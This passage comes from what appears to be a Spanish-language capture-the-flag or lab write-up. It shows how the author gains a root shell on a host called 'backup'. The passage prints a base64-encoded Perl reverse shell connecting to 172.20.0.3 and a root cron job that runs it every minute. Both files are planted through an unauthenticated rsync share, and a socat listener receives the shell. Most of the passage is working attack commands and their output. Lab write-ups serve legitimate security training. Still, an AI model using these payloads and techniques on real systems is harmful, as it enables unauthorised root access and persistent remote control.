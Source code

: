 ### Ahora con socat debemos poner nuestra máquina a la escucha y esperar el minuto para que nos devuelva la Reverse Shell

```abap
bash-4.3# ./socat TCP-LISTEN:3131 STDOUT
```

### Pero después del minuto no nos devuelve nada, así que vamos a cambiar el puerto de la shell y el nombre de los archivos  para subirlos de nuevo ver si tenemos suerte con otro puerto

```abap
bash-4.3# echo "IyEvYmluL2Jhc2gKCnBlcmwgLWUgJ3VzZSBTb2NrZXQ7JGk9IjE3Mi4yMC4wLjMiOyRwPTMxMzE7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9iYXNoIC1pIik7fTsnCg==" | base64 -d > reverse.sh
bash-4.3# echo "* * * * * root sh /tmp/reverse.sh" > reverse
bash-4.3# cat reverse.sh 
#!/bin/bash

perl -e 'use Socket;$i="172.20.0.3";$p=3131;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
bash-4.3# cat reverse
* * * * * root sh /tmp/reverse.sh
bash-4.3#
```

### Ahora vamos a subirlos de nuevo y ponernos a la escucha con socat

```abap
bash-4.3# rsync -a reverse.sh rsync://backup:873/src/tmp/
bash-4.3# rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2021/09/29 03:07:41 .
-rw-r--r--            235 2021/09/29 03:06:07 reverse.sh
-rw-r--r--            235 2021/09/29 02:32:39 shell.sh
bash-4.3# rsync -a reverse.sh rsync://backup:873/src/tmp/
reverse.sh
bash-4.3# rsync -a reverse rsync://backup:873/src/etc/cron.d/
bash-4.3# rsync rsync://backup:873/src/etc/cron.d/
drwxr-xr-x          4,096 2021/09/29 03:08:19 .
-rw-r--r--             34 2021/09/29 03:06:17 reverse
bash-4.3# ./socat TCP-LISTEN:3131 STDOUT
```

### Ya de esta manera tengo una reverse shell con backup como root

```abap
bash-4.3# rsync -a shell.sh rsync://backup:873/src/tmp/
bash-4.3# rsync -a shell rsync://backup:873/src/etc/cron.d/
bash-4.3# ./socat TCP-LISTEN:4444 STDOUT
bash: cannot set terminal process group (547): Inappropriate ioctl for device
bash: no job control in this shell
root@backup:~# hostname && whoami && id
hostname && whoami && id
backup
root
uid=0(root) gid=0(root) groups=0(root)
root@backup:~#
```
